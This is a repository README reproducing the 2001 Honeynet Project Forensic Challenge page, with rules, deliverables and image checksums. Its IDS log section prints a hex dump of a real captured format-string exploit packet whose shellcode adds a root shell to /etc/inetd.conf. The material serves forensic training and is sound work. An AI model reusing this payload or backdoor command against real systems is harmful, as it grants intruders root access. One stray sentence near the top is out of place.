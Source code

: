 .. image:: images/page_titles_for_challenge.jpg

===================================
Honeynet Project Forensic Challenge
===================================

This repository mirrors and repackages the original data and analyses
from the Honeynet Project `Forensic Challenge`_.  The original web site
can be found at 
Python CLI for managing secrets (passwords, API keys, etc.) You can read
about the Honeynet Project Forensic Challenge in the article
`Tales from the CRYPT(3): Stories from the early Honeynet Project years (1999 to 2005)
<https://medium.com/@dave.dittrich/tales-from-the-crypt-3-ca8801b9f725>`_.

The Forensic Challenge
----------------------

The Honeynet Project's **Forensic Challenge** was launched on January 15, 2001.
This page links to all the information we've assembled about the Challenge.
This index will help you quickly get to what you want.

-  Introduction_
-  `The Challenge`_
-  `The Rules`_
-  `Partition images <partition-images/>`__
-  `Frequently Asked Questions about the Challenge <faq/>`__
-  `Results of the Challenge <results/>`__

.. _intro:

Introduction
~~~~~~~~~~~~

Every day, incident handlers across the globe are faced with compromised
systems, running some set of unknown programs, providing some kind of
unintended service to an intruder who has taken control of someone else's --
YOUR, or your client's, or customer's -- computers. To most, the response is a
matter of "get it back online ASAP and be done with it." This usually leads to
an inadequate and ineffective response, not even knowing what hit you, with a
high probability of repeated compromise.

On the law enforcement side, they are hampered by a flood of incidents and a
lack of good data. A victim trying to keep a system running or doing a
"quickie" job of cleanup usually means incidents are underreported and
inadequate handling of the evidence leads to no evidence, or tainted evidence.
There has to be a better way to meet the needs of incident handlers and system
administrators, as well as law enforcement, if Internet crime is going to be
managed and not run amok. One possible answer is effective forensic analysis
skills -- widespread knowledge of tools and techniques -- to preserve data,
analyze it, and produce meaningful reports and damage estimates to your
organization's management, to other incident response teams and system
administrators, and to law enforcement.

Enter the Honeynet Project. One of the primary goals of the Honeynet Project is
to find order in chaos by letting the attackers do their thing, and allowing
the defenders to learn from the experience and improve. The latest challenge,
inspired by the Honeynet Project's founder Lance Spitzner, is the Forensic
Challenge. Only this time, we're opening it up to anyone who wants to join in.

The Challenge
~~~~~~~~~~~~~

The Forensic Challenge is an effort to allow incident handlers around the world
to all look at the same data -- an image reproduction of the same compromised
system -- and to see who can dig the most out of that system and communicate
what they've found in a concise manner. This is a nonscientific study of tools,
techniques, and procedures applied to postcompromise incident handling. The
challenge is to have fun, to solve a common real world problem, and for
everyone to learn from the process. If what I've said already isn't enough to
get you interested, Foundstone is generously offering copies of their extremely
popular "Hacking Exposed" (Second Edition) book for the 20 best submissions.

To get you started, here are the basic facts about the compromise:

-  The system was running a default Red Hat Linux 6.2 Server
   installation.
-  The system's time zone was set to GMT-0600 (CST).
-  The following was noted and logged by the Project's IDS of
   choice, `snort <http://www.snort.org>`__.

::

   Nov 7 23:11:06 lisa snort[1260]:
   RPC Info Query: 216.216.74.2:963 -> 172.16.1.107:111

   Nov 7 23:11:31 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 1 hosts: TCP(2), UDP(0)

   Nov 7 23:11:31 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1209

   Nov 7 23:11:34 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1210

   Nov 7 23:11:47 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 2 hosts: TCP(2), UDP(0)

   Nov 7 23:11:51 lisa snort[1260]:
   IDS15 - RPC - portmap-request-status: 216.216.74.2:709 -> 172.16.1.107:111

   Nov 7 23:11:51 lisa snort[1260]:
   IDS362 - MISC - Shellcode X86 NOPS-UDP: 216.216.74.2:710 -> 172.16.1.107:871

::

   11/07-23:11:50.870124 216.216.74.2:710 -> 172.16.1.107:871
   UDP TTL:42 TOS:0x0 ID:16143
   Len: 456
   3E D1 BA B6 00 00 00 00 00 00 00 02 00 01 86 B8  >...............
   00 00 00 01 00 00 00 02 00 00 00 00 00 00 00 00  ................
   00 00 00 00 00 00 00 00 00 00 01 67 04 F7 FF BF  ...........g....
   04 F7 FF BF 05 F7 FF BF 05 F7 FF BF 06 F7 FF BF  ................
   06 F7 FF BF 07 F7 FF BF 07 F7 FF BF 25 30 38 78  ............%08x
   20 25 30 38 78 20 25 30 38 78 20 25 30 38 78 20   %08x %08x %08x
   25 30 38 78 20 25 30 38 78 20 25 30 38 78 20 25  %08x %08x %08x %
   30 38 78 20 25 30 38 78 20 25 30 38 78 20 25 30  08x %08x %08x %0
   38 78 20 25 30 38 78 20 25 30 38 78 20 25 30 38  8x %08x %08x %08
   78 20 25 30 32 34 32 78 25 6E 25 30 35 35 78 25  x %0242x%n%055x%
   6E 25 30 31 32 78 25 6E 25 30 31 39 32 78 25 6E  n%012x%n%0192x%n
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 EB 4B 5E 89 76 AC 83 EE 20 8D 5E 28 83 C6  ...K^.v... .^(..
   20 89 5E B0 83 EE 20 8D 5E 2E 83 C6 20 83 C3 20   .^... .^...  ..
   83 EB 23 89 5E B4 31 C0 83 EE 20 88 46 27 88 46  ..#.^.1... .F'.F
   2A 83 C6 20 88 46 AB 89 46 B8 B0 2B 2C 20 89 F3  *.. .F..F..+, ..
   8D 4E AC 8D 56 B8 CD 80 31 DB 89 D8 40 CD 80 E8  .N..V...1...@...
   B0 FF FF FF 2F 62 69 6E 2F 73 68 20 2D 63 20 65  ..../bin/sh -c e
   63 68 6F 20 34 35 34 35 20 73 74 72 65 61 6D 20  cho 4545 stream
   74 63 70 20 6E 6F 77 61 69 74 20 72 6F 6F 74 20  tcp nowait root
   2F 62 69 6E 2F 73 68 20 73 68 20 2D 69 20 3E 3E  /bin/sh sh -i >>
   20 2F 65 74 63 2F 69 6E 65 74 64 2E 63 6F 6E 66   /etc/inetd.conf
   3B 6B 69 6C 6C 61 6C 6C 20 2D 48 55 50 20 69 6E  ;killall -HUP in
   65 74 64 00 00 00 00 09 6C 6F 63 61 6C 68 6F 73  etd.....localhos
   74 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  t...............
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................

A bit-image copy of the active partitions was obtained, as detailed here:

::

   /dev/hda8       /
   /dev/hda1       /boot
   /dev/hda6       /home
   /dev/hda5       /usr
   /dev/hda7       /var
   /dev/hda9       swap

MD5 Checksums (both uncompressed and GNU gzip compressed):

::

   a1dd64dea2ed889e61f19bab154673ab  honeypot.hda1.dd
   c1e1b0dc502173ff5609244e3ce8646b  honeypot.hda5.dd
   4a20a173a82eb76546a7806ebf8a78a6  honeypot.hda6.dd
   1b672df23d3af577975809ad4f08c49d  honeypot.hda7.dd
   8f244a87b8d38d06603396810a91c43b  honeypot.hda8.dd
   b763a14d2c724e23ebb5354a27624f5f  honeypot.hda9.dd

   f8e5cdb6f1109035807af1e141edd76d  honeypot.hda1.dd.gz
   6ef29886be0d9140ff325fe463fce301  honeypot.hda5.dd.gz
   8eb98a676dbffad563896a9b1e99a95f  honeypot.hda6.dd.gz
   be215f3e8c2602695229d4c7810b9798  honeypot.hda7.dd.gz
   b4ff10d5fd1b889a6237fa9c2979ce77  honeypot.hda8.dd.gz
   9eed26448c881b53325a597eed8685ea  honeypot.hda9.dd.gz

Please be aware that these are new images. This is **not** a system that the
Honeynet Project has previously written about or discussed publically. (I.e.,
you won't get any hints from previous Honeynet papers.) The images were edited
to anonymize the system. Only the hostname was modified. Everyone is using the
same data, so any anomalies caused by this editing will be identical.

The image files can be mounted on Linux systems using the loopback interface
like this:

::

    # mkdir /t
    # mount -o ro,loop,nodev,noexec honeypot.hda8.dd /t
    # mount -o ro,loop,nodev,noexec honeypot.hda1.dd /t/boot
    [ etc... ]

Its now your job -- should you choose to accept it! -- to figure out the Who,
What, Where, When, How, and maybe even the Why of this compromise. We don't
expect that everyone undertaking the challenge can or will address all of the
following items, but the list below of questions and deliverables is provided
as a guideline for what to produce and what to focus on:

#. Identify the intrusion method, its date, and time. (Assume the clock on
   the IDS was synchronized with an NTP reference time source.)

#. Identify as much as possible about the intruder(s).

#. List all the files that were added/modified by the intruder.  Provide
   an analysis of these programs (including decompilation or disassembly
   where necessary to determine their function and role in the incident.)

#. Was there a sniffer or password harvesting program installed?
   If so, where and what files are associated with it?

#. Was there a "rootkit" or other post-concealment trojan horse programs
   installed on the system? If so, what operating system programs were
   replaced and how could you get around them? Hint: If you don't know
   what a "rootkit" is, read this:
   `http://staff.washington.edu/dittrich/misc/faqs/rootkits.faq
   <https://staff.washington.edu/dittrich/misc/faqs/rootkits.faq>`__

#. What is publicly known about the source of any programs found on the
   system? (e.g., their authors, where source code can be found, what
   exploits or advisories exist about them, etc.)

#. Build a time line of events and provide a detailed analysis of activity
   on the system, noting sources of supporting or confirming evidence
   (elsewhere on the system or compared with a known "clean" system of
   similar configuration.)

#. Provide a report suitable for management or news media (general aspects
   of the intrusion without specific identifying data).

#. Provide an advisory for use within the home organization (a fictitious
   university, "honeyp.edu", in this case, where I hold an honorary Doctorate,
   by the way) to explain the key aspects of the vulnerability exploited,
   how to detect and defend against this vulnerability, and how to
   determine whether or not other systems were similarly compromised.

#. Produce a cost-estimate for this incident using the following guidelines
   and method: 

   `http://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq
   <https://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq>`__

   To simplify and to normalize the results, assume that your annual salary is
   $70,000 and that there are no user-related costs. (If you work as a team,
   break out hours by person, but all members should use the same annual
   salary. Please also include a brief description of each investigator's
   number of years of experience in the fields of system administration,
   programming, and security, just to help us compare the number of hours spent
   with other entrants).

To summarize (and standardize) the deliverables, please produce the following:

::

      File                   Contents
      -----------------------------------------------------------------------
      index.txt              Index of files/directories submitted (including
                             any not listed below.)

      timestamp.txt          Timestamp of MD5 checksums of all files listed
                             and submitted (dating when produced -- see
                             deadline information below.)

      costs.txt              Incident cost-estimate.

      evidence.txt           Time line and detailed (technical) analysis. (Use
                             an Appendix, and/or mark answers to questions
                             above with "[Q1]", etc.)

      summary.txt            Management and media (non-technical) summary.

      advisory.txt           Advisory for consumption by other system
                             administrators and incident handlers within your
                             organization.

      files.tar              Any other files produced during analysis and/or
                             excerpts (e.g., strings output or dissassembly
                             listings) from files on the compromised file
                             system, which are referenced in the previous files.

The Rules
~~~~~~~~~

-  You are free to use any tools or techniques that you choose, provided that
   the judges are able to readily interpret your results and duplicate or verify
   their accuracy using publicly available means (i.e., don't expect us all to
   have a copy of your favorite "Law Enforcement Only" or multi-hundred dollar
   commercial Windows-only tool). A good publicly available free
   forensic toolkit is `TASK <https://www.sleuthkit.org>`__ (made up of
   `Autopsy <https://www.sleuthkit.org/autopsy/download.php>`__ and
   `The Sleuth Kit <https://www.sleuthkit.org/sleuthkit/download.php>`__.
   These tools build on Dan Farmer and Wietse Venema's original `The
   Coroner's Toolkit (TCT)
   <http://www.porcupine.org/forensics/tct.html>`__. If you want
   examples of the use of TCT, or other tools/techniques, see the Forensics
   section of the following web page:

   `https://davedittrich.github.io/ <https://davedittrich.github.io/>`__

   No matter what tools/methods you choose, please make sure you explain them
   in your analysis and cite references to resources (e.g., RFCs, CERT or
   SANS "how to" documents) to help others learn by example. Don't forget:
   this is a Honeynet Project brainchild, so learning is what it's all about.
   And fun. It's all about learning and fun. Oh yeah, and security. Learning,
   fun, AND security. ;)

-  You may work as a team, but if your entry is selected as a Top 20, you'll
   have to fight over one copy of the book.

-  Deliver the results of the analysis in such a way that the judges can quickly
   and easily consume the information, and such that its authenticity, time of
   production, and integrity can be verified independently. (e.g., ISO 9660
   CD-ROM or ``.tar`` archive, with digital time stamps, and PGP signatures
   and/or MD5 checksums.) Please DO NOT SEND COPIES OF COMPLETE FILES FROM THE
   FILE SYSTEM. We already have a copy of the file system and its contents.
   Just note the path (e.g., "[See file /bin/foo]").

-  All submissions **MUST** be time stamped prior to 00:00 GMT on Monday,
   February 19, 2001 [**not** February 15 as the announcement email said], and
   delivery to the judges initiated later that same day. (This is to accommodate
   submissions on IS0 9660 format CD-ROM, which should be postmarked by this
   time. The digital time stamps and postmarks will be used to determine the
   20 "Hacking Exposed" book winners.) One free digital time stamping service
   you can use is `Stamper <http://www.itconsult.co.uk/stamper.htm>`__ .

-  The person who hacked the box is NOT eligible, nor are members of the
   Honeynet Project. Members of the companies employing Honeynet Project members
   are eligible (and encouraged!) to enter, but their entries (even if Top 20)
   will not receive copies of "Hacking Exposed." The books go to other entrants.

-  Entries must be written in English (UK and Aussie English accepted, but go
   light on the regional slang, please! I only have a copy of "*Best of Aussie
   Slang*," and the other judges don't live in Seattle.)

-  Only one entry per household, please. Must be sentient to enter. Sorry, no
   Ginsu Knives come with this offer!

Submissions will be judged by a panel of experts and winners selected and
announced on Monday, March 19, 2001. All decisions of the judges are final (no
recounts or legal challenges by teams of grossly overpaid lawyers will be
tolerated!).

After the winners are announced, all entries will be posted for the security
community to review. We hope that the community can better learn from and
improve from all the different techniques that different people and
organizations use.

Also, we wouldn't be the Honeynet Project if we didn't capture all of the
blackhat's keystrokes as he exploited, accessed, and modified the honeypot! We
will release the Honeypot Project's analysis of the hacked system, as well as
the blackhat's keystrokes, along with the results of the Challenge on March 19.

Good luck, and have fun!

Dave Dittrich

.. |spacer| image:: /images/spacer.gif
   :width: 200px
   :height: 100px
.. |Home| image:: /images/nav_00_home.gif
   :name: home
   :width: 129px
   :height: 28px
   :target: /index.html
.. |About the Project| image:: /images/nav_01_about.gif
   :name: about
   :width: 129px
   :height: 28px
   :target: /misc/project.html
.. |Challenges| image:: /images/nav_04_challenges.gif
   :name: challenges
   :width: 129px
   :height: 30px
   :target: /misc/chall.html
.. |Presentations| image:: /images/nav_05_presentations.gif
   :name: pres
   :width: 129px
   :height: 31px
   :target: /speaking/index.html
.. |Whitepapers| image:: /images/nav_06_whitepapers.gif
   :name: white
   :width: 129px
   :height: 30px
   :target: /papers/index.html
.. |Tools| image:: /images/nav_07_tools.gif
   :name: tools
   :width: 129px
   :height: 30px
   :target: /tools/index.html
.. |Our Book| image:: /images/nav_08_our_book.gif
   :name: book
   :width: 129px
   :height: 29px
   :target: /book/index.html
.. |Funding/Donations| image:: /images/nav_09_funding.gif
   :name: fund
   :width: 129px
   :height: 31px
   :target: /funds/index.html
.. |Status Reports| image:: /images/nav_status.gif
   :name: status
   :width: 129px
   :height: 31px
   :target: /status/index.html
.. |Mirrors| image:: /images/nav_10_mirrors.gif
   :name: mirrors
   :width: 129px
   :height: 28px
   :target: /misc/mirror.html
.. |spacer| image:: /images/spacer.gif
   :width: 19px
   :height: 5px
.. |spacer| image:: /images/spacer.gif
   :width: 5px
   :height: 50px
.. |The Forensic Challenge| image:: /images/page_titles_for_challenge.jpg
   :width: 350px
   :height: 36px
.. |spacer| image:: /images/spacer.gif
   :width: 1px
   :height: 3px
.. |Back to Top| image:: /images/back.gif
   :width: 82px
   :height: 20px
   :target: #top
Credits
---------

The original Honeynet Project `Forensic Challenge`_ web site
is http://old.honeynet.org/challenge/

.. _Forensic Challenge: http://old.honeynet.org/challenge/
